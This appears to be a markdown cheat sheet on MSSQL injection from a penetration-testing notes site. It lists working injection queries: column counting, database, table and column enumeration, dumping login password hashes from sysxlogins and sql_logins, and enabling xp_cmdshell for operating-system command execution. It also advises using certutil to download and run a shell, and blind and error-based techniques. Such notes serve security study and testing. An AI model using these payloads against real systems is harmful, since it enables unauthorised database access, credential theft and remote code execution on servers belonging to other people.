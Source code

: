 ```yaml
---
title: MSSQL Common
layout: default
parent: SQL Injection
has_children: false
nav_order: 2
---
```


For MySQL/MSSQL: `select @@version` can return the version, others will error

check can how many columns: `order by x`, keep on increasing until error. last number will be number of columns

Concatenating (concatenate put 2 together, STRING_AGG put all the values in one column as one): `concat(name1,':',name2)` or `STRING_AGG(column_name, ',')` (only 2017+)\
Example:\
`SELECT+STRING_AGG(name,',')+FROM+master..sysdatabases;`

To comment, use `xx--`

Show all <b>databases</b>: `SELECT name FROM master..sysdatabases;` show the database in the current one: `SELECT DB_NAME()`

Show the <b>table name</b>: `SELECT name FROM master..sysobjects WHERE xtype = 'U';` (change xtype to V as well for view) OR for other DB: `SELECT name FROM someotherdb..sysobjects WHERE xtype = 'U';`

Show the <b>column name</b> if table name is mytable:\
`SELECT name FROM syscolumns WHERE id = (SELECT id FROM sysobjects WHERE name = 'mytable');` (For current DB only)\
`SELECT master..syscolumns.name FROM master..syscolumns, master..sysobjects WHERE master..syscolumns.id=master..sysobjects.id AND master..sysobjects.name='sometable';` (list colum names and types for master..sometable)

Finally select object use `select * from db..table;`

See which user: `SELECT system_user;` OR `SELECT user_name();`

<b>Password hash:</b>\
MSSQL 2000: `SELECT name, password FROM master..sysxlogins`\
MSSQL 2005: `SELECT name, password_hash FROM master.sys.sql_logins`\
<b>Note: If doesn't work as expected, use the binary converted:</b>\
MSSQL 2000: `SELECT name, master.dbo.fn_varbintohexstr(password) FROM master..sysxlogins`\
MSSQL 2005: `SELECT name + ':' + master.sys.fn_varbintohexstr(password_hash) from master.sys.sql_logins`

Check if you are sysadmin: `SELECT is_srvrolemember('sysadmin');`

XP_CMDSHELL <b>(If you are doing SQL injection, can put a valid query then `;` as a separator then do all the following, in the end use certutil to download shell and run):</b>

```
EXECUTE sp_configure 'show advanced options', 1;
reconfigure;
EXECUTE sp_configure 'xp_cmdshell', 1;
reconfigure;
EXEC xp_cmdshell 'dir';
```

<b>Error based</b>:\
`cast(@@version as integer)`

If you suspect there is a SQL injection and stacked based work, but cannot confirm. Can try running XP_CMDSHELL blindly.